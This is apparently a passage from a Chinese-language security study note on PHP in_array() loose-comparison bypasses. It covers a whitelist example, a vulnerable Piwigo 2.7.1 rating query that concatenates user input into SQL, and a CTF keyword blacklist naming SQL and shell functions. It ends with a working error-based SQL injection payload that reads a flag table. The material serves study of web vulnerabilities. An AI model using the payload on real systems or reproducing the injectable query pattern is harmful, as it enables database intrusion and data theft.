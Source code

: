 ```
in_array(“7”, $this->whitelist) // true
in_array(“7.php”, $this->whitelist) // true
```

实际上是个`Loose checking`

---

## 例子3 piwigo2.7.1

```
$rate = $_POST['rate']

// rate_items: available rates for a picture
$conf['rate_items'] = array(0,1,2,3,4,5);

if (!isset($rate) or !$conf['rate'] or !in_array($rate, $conf['rate_items']))
{
    return false;
}

$query = 'INSERT INTO '.RATE_TABLE.' (user_id,anonymous_id,element_id,rate,date) VALUES ('$user['id'].','.'\''.$anonymous_id.'\','$image_id.','.$rate.',NOW());';

pwg_query($query);
```

用了`in_array()`函数来检测评分值,也是个`Loose checking`,可以绕过

---

## 例子4 CTF题目

绕过`in_array()`之后要绕过过滤函数`stop_hack`

```
function stop_hack($value){
	$pattern = "insert|delete|or|concat|concat_ws|group_concat|join|floor|\/\*|\*|\.\.\/|\.\/|union|into|load_file|outfile|dumpfile|sub|hex|file_put_contents|fwrite|curl|system|eval";
	$back_list = explode("|",$pattern);
	foreach($back_list as $hack){
		if(preg_match("/$hack/i", $value)) // 模式分隔符后的"i"标记这是一个大小写不敏感的搜索
			die("$hack detected!");
	}
	return $value;
}
```

这个过滤函数过滤了字符串拼接函数

然后题解的payload(报错注入):
`http://localhost/index.php?id=4 and (select updatexml(1,make_set(3,'~',(select flag from flag)),1))`
